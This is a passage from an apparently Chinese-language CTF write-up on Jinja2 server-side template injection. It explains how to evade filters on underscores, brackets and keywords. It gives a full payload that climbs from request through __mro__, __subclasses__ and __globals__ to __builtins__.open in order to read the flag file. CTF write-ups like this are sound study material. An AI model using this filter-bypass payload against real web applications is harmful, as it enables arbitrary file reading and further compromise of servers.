 构造请求

![image-20200423143742243](assets/20200424150523.png)

现在可以看到上面过滤掉了`__class__`，这种也可以采用

![image-20200423144033662](assets/20200424150526.png)

如何利用这种过滤来获取flag，其中由于中括号被禁用，利用列表的pop方法。但是元组没有pop方法，所以需要先转换成list，再去调用，字典可以使用get()获取键值。原flag文件名带双下划线改成单下划线了。如果其中的某个字符串关键词，比如`class`被禁用，直接拼接来绕过就行。

```none
{{(((request|attr(("_"*2,"class","_"*2)|join)|attr(("_"*2,"mro","_"*2)|join)|list).pop(-1)|attr(("_"*2,"subclasses","_"*2)|join)()).pop(258)|attr(("_"*2,"init","_"*2)|join)|attr(("_"*2,"globals","_"*2)|join)).get(("_"*2,"builtins","_"*2)|join).get('open')('Th1s_is_F1114g').read()}}
```

![image-20200423155904496](assets/20200424150528.png)

原代码中是过滤掉`join`的，所以这里也可以使用`format`来处理

![image-20200423145253095](assets/20200424150530.png)
